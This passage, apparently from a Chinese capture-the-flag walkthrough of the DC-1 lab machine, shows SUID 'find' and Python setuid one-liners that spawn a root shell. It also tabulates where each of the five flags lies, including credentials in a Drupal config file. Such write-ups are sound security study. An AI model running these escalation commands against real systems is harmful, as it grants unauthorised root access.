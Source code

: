 ### ✅ 3. 查看 sudo 权限

```bash
sudo -l
```

### ✅ 4. 常见提权方式：SUID、计划任务、内核漏洞（如 Dirty COW）

------

## ⚔️ 五、提权实战：find SUID 提权

发现 `/usr/bin/find` 有 SUID 权限：

```bash
find . -exec /bin/sh -i \; -quit
```

验证：

```bash
find /tmp -exec id \; -quit
```

![image-20250728113459339](file:///C:/%5CUsers%5CAdministrator%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20250728113459339.png)

### ✅ 修正 euid 与 uid 问题(flag5终极提权)

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![image-20250728171333112](file:///C:/%5CUsers%5CAdministrator%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20250728171333112.png)

------

## 🏁 六、获取 DC-1 靶机中的 5 个 flag

| Flag编号 | 路径                     | 获取阶段  | 获取方式说明                                                |
| -------- | ------------------------ | --------- | ----------------------------------------------------------- |
| flag1    | `/var/www/flag1.txt`     | 信息收集  | 📂 使用目录扫描工具（如 gobuster）找到文件并查看内容。       |
| flag2    | Drupal 配置文件注释中    | 信息收集  | 🔍 查看 `/var/www/sites/default/settings.php` 文件注释内容。 |
| flag3    | 数据库字段中             | 漏洞利用  | 🔎 获取数据库凭据后登录数据库，查看字段内容获取 flag。       |
| flag4    | `/home/flag4/flag4.txt`  | 提权后    | 🧗 提权后访问用户主目录读取 flag。                           |
| flag5    | `/root/thefinalflag.txt` | Root 权限 | 👑 提权为 UID 0 后读取此终极 flag。                          |

------

## 🎯 flag 获取详细说明
